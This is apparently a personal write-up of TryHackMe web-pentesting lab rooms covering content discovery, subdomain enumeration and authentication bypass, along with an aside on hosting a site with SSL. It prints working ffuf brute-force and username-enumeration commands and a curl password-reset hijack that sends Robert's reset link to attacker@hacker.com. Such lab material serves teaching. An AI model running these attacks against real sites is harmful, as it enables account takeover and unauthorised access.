










As someone even remotely affiliated with Penetration Testing, knowing about the `OWASP [ Open Worldwide Application Security Project]` is fundamental.

## Content Discovery

Firstly, we should ask, in the context of web application security, what is content? Content can be many things, a file, video, picture, backup, a website feature. When we talk about content discovery, we're not talking about the obvious things we can see on a website; it's the things that aren't immediately presented to us and that weren't always intended for public access.

This content could be, for example, pages or portals intended for staff usage, older versions of the 
website, backup files, configuration files, administration panels, etc. There are three main ways of discovering content on a website which we'll cover. Manually, Automated and OSINT (Open-Source Intelligence).

### Manual Discovery

First of all we have the `robots.txt` it’s like a must-do at the start of any Manual Discovery Attack.

The `href` attribute (hypertext reference attribute) **defines the link destination or target**. This is often a webpage URL. But there are other possible values. Anchor tags should also include anchor content—the content that the link is attached to.



`Ajax`is a set of web development techniques that uses various web technologies on the client-side to create asynchronous web applications. With Ajax, web applications can send and retrieve data from a server asynchronously without interfering with the display and behavior of the existing page.

[AJAX Introduction](https://www.w3schools.com/xml/ajax_intro.asp)

By the way terminator helped me a lot, here’s some shortcuts page.

[Terminator Keyboard Shortcuts](https://cheatography.com/elpedro/cheat-sheets/terminator/)

`Favicon Enumeration`

As for favicon enumeration, it gives us a sneak peek into the assets of the website. We start with 

```bash
https://<website.com>/sites/favicon
```

In the source of this URL, we could the juicy **`/images`** folder, which could be useful for further enumeration.

Sometimes when frameworks are used to build a website, a favicon that is part of the installation gets leftover, and if the website developer doesn't replace this with a custom one, this can give us a clue on what framework is in use.

[](https://wiki.owasp.org/index.php/OWASP_favicon_database)

`Sitemap.xml` gives a list of every file on the website.

`HTTP Headers`

```bash
curl http://10.10.165.186 -v
```

`Framework Stack` 

Once you've established the framework of a website, either from the above favicon example or by looking for clues in the page source such as comments, copyright notices or credits, you can then locate the framework's website. From there, we can learn more about the software and other information, possibly leading to more content we can discover.

### Open-Source Enumeration

One was the coolest and efficient ways to gain a foothold of the target is by `Google Hacking/Dorking` , utilizes Google's advanced search engine features, 
which allow you to pick out custom content. You can, for instance, pick 
out results from a certain domain name using the **site:** filter, for example (site:tryhackme.com)
 you can then match this up with certain search terms, say, for example,
 the word admin (site:tryhackme.com admin) this then would only return 
results from the tryhackme.com website
 which contain the word admin in its content. You can combine multiple 
filters as well. Here is an example of more filters you can use:

| Filter | Example | Description |
| --- | --- | --- |
| site | site:tryhackme.com | returns results only from the specified website address |
| inurl | inurl:admin | returns results that have the specified word in the URL |
| filetype | filetype:pdf | returns results which are a particular file extension |
| intitle | intitle:admin | returns results that contain the specified word in the title |

More information about google hacking can be found here:

[Google hacking](https://en.wikipedia.org/wiki/Google_hacking)

`Wappalyzer` is an online tool and browser extension that helps identify what 
technologies a website uses, such as frameworks, Content Management 
Systems (CMS), payment processors and much more, and it can even find 
version numbers as well.

[Find out what websites are built with - Wappalyzer](https://www.wappalyzer.com/)

The `Wayback Machine` is a historical archive of websites that dates back to the late 90s. 
You can search a domain name, and it will show you all the times the 
service scraped the web page and saved the contents. This service can 
help uncover old pages that may still be active on the current website.

[Wayback Machine](https://archive.org/web/)

`Git` is an under-looked aspect of Open-Source Enumeration. Use it well !

`S3 Buckets` are a storage service provided by Amazon AWS, allowing people 
to save files and even static website content in the cloud accessible 
over HTTP and HTTPS. The owner of the files can set access permissions 
to either make files public, private and even writable. Sometimes these 
access permissions are incorrectly set and inadvertently allow access to
 files that shouldn't be available to the public. The format of the S3 
buckets is https://**{name}.s3.amazonaws.com.**

S3 buckets can be discovered in many ways, such as finding the URLs in 
the website's page source, GitHub repositories, or even automating the 
process. One common automation method is by using the company name 
followed by common terms such as **{name}**-assets, **{name}**-www, **{name}**-public, **{name}**-private, etc.

### **Automated Discovery**

Like the name sounds, it’s Content Discovery by using automated tools, that do the work for us!

This process is automated as it usually contains hundreds, thousands or even millions of requests to a web server. These requests check whether a file or directory exists on a website, giving us access to resources we didn't previously know existed. This process is made possible by using a resource called wordlists.

**Using `ffuf`:** 

`ffuf` stands for "Fuzz Faster U Fool" LOL. It's a tool designed for web fuzzing, allowing penetration testers and security researchers to quickly test various inputs to find vulnerabilities or hidden paths in web applications.

```powershell
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://<IP>/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.191.251/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 197ms]
contact                 [Status: 200, Size: 3108, Words: 747, Lines: 65, Duration: 200ms]
customers               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 232ms]
development.log         [Status: 200, Size: 27, Words: 5, Lines: 1, Duration: 222ms]
monthly                 [Status: 200, Size: 28, Words: 4, Lines: 1, Duration: 210ms]
news                    [Status: 200, Size: 2538, Words: 518, Lines: 51, Duration: 196ms]
private                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 210ms]
robots.txt              [Status: 200, Size: 46, Words: 4, Lines: 3, Duration: 224ms]
sitemap.xml             [Status: 200, Size: 1391, Words: 260, Lines: 43, Duration: 219ms]
:: Progress: [4727/4727] :: Job [1/1] :: 184 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

**Using `dirb`:**

```
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ dirb http://<IP> /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun  9 15:40:18 2024
URL_BASE: http://10.10.191.251/
WORDLIST_FILES: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4726                                                          

---- Scanning URL: http://10.10.191.251/ ----
==> DIRECTORY: http://10.10.191.251/assets/                                                                                    
+ http://10.10.191.251/contact (CODE:200|SIZE:3108)                                                                            
+ http://10.10.191.251/customers (CODE:302|SIZE:0)                                                                             
+ http://10.10.191.251/development.log (CODE:200|SIZE:27)                                                                      
+ http://10.10.191.251/monthly (CODE:200|SIZE:28)                                                                              
+ http://10.10.191.251/news (CODE:200|SIZE:2538)                                                                               
==> DIRECTORY: http://10.10.191.251/private/                                                                                   
+ http://10.10.191.251/robots.txt (CODE:200|SIZE:46)                                                                           
+ http://10.10.191.251/sitemap.xml (CODE:200|SIZE:1391)                                                                        
                                                                                                                               
---- Entering directory: http://10.10.191.251/assets/ ----
==> DIRECTORY: http://10.10.191.251/assets/avatars/                                                                            
                                                                                                                               
---- Entering directory: http://10.10.191.251/private/ ----                    
-----------------
END_TIME: Sun Jun  9 16:17:48 2024
DOWNLOADED: 9940 - FOUND: 7

```

**Using `Gobuster`:**

```
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ gobuster dir --url http://<IP> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.251/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://10.10.191.251/assets/]
/contact              (Status: 200) [Size: 3108]
/customers            (Status: 302) [Size: 0] [--> /customers/login]
/development.log      (Status: 200) [Size: 27]
/monthly              (Status: 200) [Size: 28]
/news                 (Status: 200) [Size: 2538]
/private              (Status: 301) [Size: 178] [--> http://10.10.191.251/private/]
/robots.txt           (Status: 200) [Size: 46]
/sitemap.xml          (Status: 200) [Size: 1391]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Here’s how a clean `NMap` scan looks like,

```bash
mkdir nmap 
nmap -sC -sV -oN nmap/initial <IP_ADDR>
```

so -`sC` is for default scripts, -`sV` is to enumerate versions and -`oN` to output in nmap format.

## **Subdomain Enumeration**

Subdomain enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

Three different subdomain enumeration methods: Brute Force, OSINT (Open-Source Intelligence) and Virtual Host.

### OSINT

**`SSL/TLS Certificates`**

SSL/TLS certificates, or Secure Sockets Layer and Transport Layer Security certificates, are a type of digital certificate that allow web browsers to create encrypted connections to websites. They are a standard security technology that protects online transactions and logins by encrypting data sent between a browser, a website, and its server. SSL/TLS certificates also authenticate the identity of the website that owns the certificate.

When an SSL/TLS (Secure Sockets Layer/Transport Layer Security) certificate is created for a domain by a CA (Certificate Authority), CA's take part in what's called "Certificate Transparency (CT) logs". These are publicly accessible logs of every SSL/TLS certificate created for a domain name. The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used. We can use this service to our advantage to discover subdomains belonging to a 
domain, sites like 

[crt.sh | Certificate Search](http://crt.sh/)

[Entrust Certificate Search - Entrust, Inc.](https://ui.ctsearch.entrust.com/ui/ctsearchui)

offer a searchable database of certificates that shows current and historical results.

*Here’s a snippet of me setting-up a custom domain with SSL certs for a file sharing site,*

In this project, I’ll be continuing to develop the backend for the file sharing site to continue the proceedings of the project ‘File System Encryption using AES-256 over HTTPS’.

This involves the HTTPS part of the other project, I had already set up a domain with a free and custom TLD, I also enabled SSL certificate to make the site HTTPS. This was all done in **InfinityFree**.

```
https://www.infinityfree.com/
```

a free web-hosting site that makes development of a website much simpler with free of cost, the only thing that could be even considered as a downside is the custom and the relatively unknown TLD (Top-level Domains).

<aside>
💡 TLD stands for Top-level Domains. These are the highest level of domains in the hierarchical Domain Name System (DNS) of the internet. Examples of TLDs include .com, .org, .net, and .gov

</aside>

Before I start the documentation of this project, let me leave the link to my domain below.

```
[https://datavault.rf.gd](https://datavault.rf.gd/?i=1)
```

### Domain Registry



Here’s the creation of a new hosting account along with username and password. Remember, this is not the same as the login credentials to InfinityFree, It’s a computer generated pass.

I use LastPass as my passwords manager, it’s works really well.


P.S. Now I shifted to `BitWarden` , works like a charm!

Then you move on to naming your domain with a custom TLD of your choice, it takes 72 hours for the domain to setup due to DNS caching.

<aside>
💡 DNS caching refers to the temporary storage of DNS records by DNS resolvers, such as internet service providers (ISPs) or web browsers. This caching helps improve the efficiency and speed of DNS lookups by reducing the need to query authoritative DNS servers every time a domain name is requested. When DNS records are cached, subsequent requests for the same domain can be resolved locally, resulting in faster response times. DNS caching typically has a predetermined time-to-live (TTL) value, after which the cached records are discarded and new DNS lookups are performed.
In the context of the document, DNS caching is mentioned in relation to the time it takes for a newly named domain with a custom top-level domain (TLD) to fully set up, as it may take up to 72 hours due to DNS caching.

</aside>

After that you can register for a SSL certificate for your site this makes it HTTPS enabled.



After 3 days, You can set up SSL cert for your site, here you see the CNAME records updated for the domain.

<aside>
💡 CNAME records are DNS records that are used to map a specific domain or subdomain to another domain. They are often used to create aliases for domains or to point a domain to a different hosting provider. CNAME records can be configured through the domain registrar or DNS provider.

</aside>



Here’s a still after successfully uploading a SSL cert for your site



That lock symbol is what we’re after 🙂

I currently installed WordPress as a Softaculous Installer as a temporary measure.

<aside>
💡 Softaculous Installer is a tool that allows you to quickly and easily install various web applications, including WordPress, on your website. It simplifies the installation process and provides a user-friendly interface for managing your applications.

</aside>

Then I installed FileZilla, an FTP Client used to manage files for your site.



Connected to the site by mentioning the host details along with available port. All these are mentioned in the FTP Client section of the site.

<aside>
💡 FTP Client is a software application that allows you to manage files on a remote server using the File Transfer Protocol (FTP). It provides a user-friendly interface for connecting to a server, transferring files, and organizing your website's files and directories.

</aside>

**`Search Engines`**

Search engines contain trillions of links to more than a billion websites, which can be an excellent resource for finding new subdomains. Using advanced search methods on websites like Google, such as the site: filter, can narrow the search results. For example,

```powershell

"-site:www.domain.com site:*.domain.com"
```

would only contain results leading to the domain name domain.com but exclude any links to 
www.domain.com; therefore, it shows us only subdomain names belonging to domain.com.

**`Automation Using Sublist3r`**

To speed up the process of OSINT subdomain discovery, we can automate the above methods with the help of tools like

https://github.com/aboul3la/Sublist3r

```powershell
user@thm:~$ ./sublist3r.py -d acmeitsupport.thm

          ____        _     _ _     _   _____
         / ___| _   _| |__ | (_)___| |_|___ / _ __
         \___ \| | | | '_ \| | / __| __| |_ \| '__|
          ___) | |_| | |_) | | \__ \ |_ ___) | |
         |____/ \__,_|_.__/|_|_|___/\__|____/|_|

         # Coded By Ahmed Aboul-Ela - @aboul3la

[-] Enumerating subdomains now for acmeitsupport.thm
[-] Searching now in Baidu..
[-] Searching now in Yahoo..
[-] Searching now in Google..
[-] Searching now in Bing..
[-] Searching now in Ask..
[-] Searching now in Netcraft..
[-] Searching now in Virustotal..
[-] Searching now in ThreatCrowd..
[-] Searching now in SSL Certificates..
[-] Searching now in PassiveDNS..
[-] Searching now in Virustotal..
[-] Total Unique Subdomains Found: 2
web55.acmeitsupport.thm
www.acmeitsupport.thm
```

### Bruteforcing Subdomains

Bruteforce DNS (Domain Name System) enumeration is the method of trying tens, hundreds, thousands or even millions of different possible subdomains from a pre-defined list of commonly used subdomains. Because this method requires many requests, we automate it with tools to make the process quicker. In this instance, we are using a tool called `dnsrecon` to perform this.

```powershell
user@thm:~$ dnsrecon -t brt -d acmeitsupport.thm
[*] No file was specified with domains to check.
[*] Using file provided with tool: /usr/share/dnsrecon/namelist.txt
[*]     A api.acmeitsupport.thm 10.10.10.10
[*]     A www.acmeitsupport.thm 10.10.10.10
[+] 2 Record Found
```

### Virtual Hosts

Some subdomains aren't always hosted in publicly accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their /etc/hosts file (or 
`c:\windows\system32\drivers\etc\hosts` file for Windows users)  which maps domain names to IP addresses.

Because web servers can host multiple websites from one server when a website 
is requested from a client, the server knows which website the client wants from the **Host** header.
We can utilize this host header by making changes to it and monitoring the response to see if we've discovered a new website.

Like with DNS Bruteforce, we can automate this process by using a wordlist of commonly used subdomains.

```
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u <IP> -fs 2395

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.218.162
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.acmeitsupport.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2395
________________________________________________

api                     [Status: 200, Size: 31, Words: 4, Lines: 1, Duration: 189ms]
delta                   [Status: 200, Size: 51, Words: 7, Lines: 1, Duration: 206ms]
yellow                  [Status: 200, Size: 56, Words: 8, Lines: 1, Duration: 224ms]
:: Progress: [151265/151265] :: Job [1/1] :: 212 req/sec :: Duration: [0:15:18] :: Errors: 200 ::
```

The above command uses the **-w** switch to specify the wordlist we are going to use. The **-H** switch adds/edits a header (in this instance, the Host header), we have the **FUZZ** keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.

We use `-fs` to filter out the most common response sizes.

```powershell
aacelearning   [Status: 200, Size: 2395, Words: 503, Lines: 52, Duration: 190ms]
aaanalytics    [Status: 200, Size: 2395, Words: 503, Lines: 52, Duration: 193ms]
```

## **Authentication Bypass**

As the name suggests, it is the bypass of authentication provided by the web servers. We will learn about different ways website authentication methods can be bypassed, defeated or broken.

### Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks. Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user 
account if we go to the Acme IT Support website (`http://<IP>/customers/signup`) signup page.

If you try entering the username **admin** and fill in the other form fields with fake information, you'll see we get the error **An account with this username already exists**. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

Username enumeration with `ffuf`

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://<IP>/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://<IP>/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 182ms]
alex    [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 217ms]
robert  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 178ms]
simon   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 183ms]
steve   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 245ms]
:: Progress: [10177/10177] :: Job [1/1] :: 219 req/sec :: Duration: [0:01:02] :: Errors: 0 ::
```

In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The `-d`
argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data. The `-u` argument specifies the URL we are making the request to, and finally, the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

### Brute Force

Using the validUsernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page (`http://<IP>/customers/login`).

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w validUsernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://<IP>/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://<IP>/customers/login
 :: Wordlist         : W1: /home/abu/Documents/TryHackMe/Rooms/JrPenTester/validUsernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 217ms]
    * W1: steve
    * W2: thunder
:: Progress: [505/505] :: Job [1/1] :: 156 req/sec :: Duration: [0:00:03]:: Errors: 0 ::
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.  For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

### Logical Flaw

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.



**Logic Flaw Example**

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Because the above PHP code example uses three equals signs (`===`), it's looking 
for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting **/`adMin`** will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

**Logic Flaw Practical**

We're going to examine the **Reset Password** function of the Acme IT Support website (`http://<IP>/customers/reset`).
 We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "**Account not found from supplied email address**".

For demonstration purposes, we'll use the email address
`robert@acmeitsupport.thm` which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter Robert as the username and press the Check Username button, you'll be presented with a confirmation 
message that a password reset email will be sent to `robert@acmeitsupport.thm`.



At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

In the second step of the reset email process, the username is submitted in a `POST`field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.

**Curl Request 1:**

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ curl 'http://10.10.189.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the

to Content-Type `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST`variable is an array that contains data received from the query string 
and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets 
delivered.

**Curl Request 2:**

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ curl 'http://10.10.189.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```



By the way, if someone is deep into this blog, and actually reading this, give yourself some props.

Here is an adventure for the OG readers, find my discord link and utter the magic words `Grak-Tung` in the invite, the #flags channel should be a treat to watch lol.

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**

Now rerunning **Curl Request 2,** but with your `@acmeitsupport.thm` in the email field you'll have a 
ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ curl 'http://10.10.189.12/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```



Now visiting, `http://10.10.189.12/customers/reset/57fe8e9ec1b7e50b778bb97846b276a2`

We get the flag in the Support Tickets section, 

<aside>
💡 Please don't tell anyone this! THM{AUTH_BYPASS_COMPLETE}

</aside>

Now, that we are somewhat deep in the path, I don’t care about filtering IP’s cause it’s first of all unique, private and I couldn’t bother less, now that I think about it, why didn’t I do this earlier?

### Cookie Tampering

Finally, we learn about cookies !


